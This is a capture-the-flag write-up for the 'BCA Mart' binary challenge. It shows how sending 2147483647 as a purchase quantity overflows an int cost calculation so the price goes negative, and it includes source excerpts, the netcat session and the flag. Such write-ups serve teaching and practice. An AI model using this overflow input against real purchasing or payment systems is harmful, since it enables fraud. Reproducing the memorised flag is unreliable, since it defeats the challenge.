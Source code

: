 # BCA Mart
**Category :** binex

# Description
After the pandemic hit, everybody closed up shop and moved online. Not wanting to be left behind, BCA MART is launching its own digital presence. Shop BCA MART from the comfort of your own home today!

# Solution
A source file, binary file and a netcat host:port were given.

```
$ file bca-mart
bca-mart: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc848e79181e575b4c63ed0596fee4d52e3cdfd, for GNU/Linux 3.2.0, not stripped
```

We can see that file is a 64bit ELF binary.

My analysis on the source code.
* From looking at the source code we can see that money is a fixed value 15.
* There were to scanfs in the code, so 2 inputs.
* 1st scanf - definitely, we need to send 6 in here for the flag.
* 2nd scanf - we need to send the amount of flags in here, any number of our wish.
```
...
  3
  4 int money = 15;
...
  8     printf("How many %s would you like to buy?\n", item);
  9     printf("> ");
 10     scanf("%d", &amount);
...
 53         puts("What would you like to buy?");
 54
 55         printf("> ");
 56         scanf("%d", &input);
...
```

**Max length of int (4bytes) is -2,147,483,648 to 2,147,483,647.**

So if we send the amount as 2147483647, cost variable will overflow to negative since cost *= amount and cost is an int. Then cost will become negative and will be less than the money value. As we are returning the amount value (2147483647) which will still be positive. So purchase() function returns greater than zero success.

```
$ nc bin.bcactf.com 49153
Welcome to BCA MART!
We have tons of snacks available for purchase.
(Please ignore the fact we charge a markup on everything)

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $15.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 2147483647
That'll cost $-100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}


1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $115.
What would you like to buy?
> ^C
```

## Flag
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
